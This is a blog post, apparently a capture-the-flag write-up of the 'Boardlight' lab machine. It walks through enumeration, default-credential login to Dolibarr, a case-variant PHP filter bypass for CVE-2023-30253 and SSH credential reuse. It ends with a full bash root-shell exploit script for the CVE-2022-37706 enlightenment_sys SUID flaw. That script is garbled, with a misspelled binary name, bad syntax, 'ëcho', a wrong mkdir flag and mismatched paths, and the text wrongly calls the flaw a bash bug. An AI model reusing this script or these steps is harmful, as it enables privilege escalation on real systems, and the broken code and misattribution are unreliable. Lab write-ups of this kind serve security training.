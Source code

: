 ```yaml
---
layout: post
title: "Boardlight 035d30a2de5d4052ac9b1c549f5e87b1"
date:   2025-07-12 12:05:57 -0400
categories: writeups
---
```


# Boardlight

# 1. Enumeration

We start with nmap scanning, two ports open, one of them a web application

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled.png' | relative_url }})

Let’s see what is this about, previously the dns recognition was unsuccessful, but thanks to the contact information we can see the domain

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_1.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_2.png' | relative_url }})

So we proceed to find a subdomain using three different tools

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_3.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_4.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_5.png' | relative_url }})

Dolibar sign-in as usually we need to discard obvious vulnerabilities as default credentials, and we bypass login interface

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_6.png' | relative_url }})

# 2. User flag

We’ve got the version of the software before, after searching on google we found there’s a vulnerability where someone with determine permissions can obtain RCE **(CVE-2023-30253)**

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_7.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_8.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_9.png' | relative_url }})

Go to create a new website 

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_10.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_11.png' | relative_url }})

The vulnerability consists in edit HTML source, apparently we can’t use php code because we don’t have those permissions but if we try to use variants like “Php, phP, pHp” this filter will be bypassed, using a normal reverse shell we could get a shell as `data`

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_12.png' | relative_url }})

Looking for config files where data has reading permissions we found credentials for the database

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_13.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_14.png' | relative_url }})

If we try to break into the database, it would be useless because it has tons of tables, and users registered are admin:admin that we guess before

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_15.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_16.png' | relative_url }})

Try to use those creds on ssh and got the user flag 

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_17.png' | relative_url }})

# 3.Priv esc

Using linpeas to enumerate the system we found a set uid binary in a path, casualty one of the directories of the path has almost the same of the machine it could be promising

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_18.png' | relative_url }})

There is a vulnerability

CVE-2022-37706 in bash, basically the system library function mishandles path names that begin with /dev/.. substring

```bash
#!/usr/bin/bash

#This code is trying to search a specific vulnerable SUID 
#if if find it, it try to leverage it to obtain full access

echo "CVE-2022-37706"
echo "[*]Trying to find the file of the vulnerable SUID"

#It search through the whole file system with string "enlightenment_sys"
#which has the following permises: SUID (-4000).
#Redirects all errors to /dev/null

file =$(find / -name enlightment_sys -perm -4000 2>/dev/null | head -1)

if[[ -z ${file} ]]
then 
	echo "[- Couldn't find the vulnerable SUID file...]"
	echo "[*] Enlightment should be installed on your system"
	exit 1
	
fi

echo "[+] Vulnerable SUID binery found!!"
echo "[+] Trying to pop up a root shell"

#It creates necessary directories to the exploit 
mkdir -b /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit 

ëcho "[+] Welcome to the rabbit holee!!"

${file} /bin/mount -o \noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,iud=(id -u),\"/dev/../tmp/;/tmp/expoit" /tmp///net

read -p "press any key to clean"

sleep 5 
rm -rf /tmp/exploit
rm -rf /tmp/net

echo -e "Done"

```

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_19.png' | relative_url }})

<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>

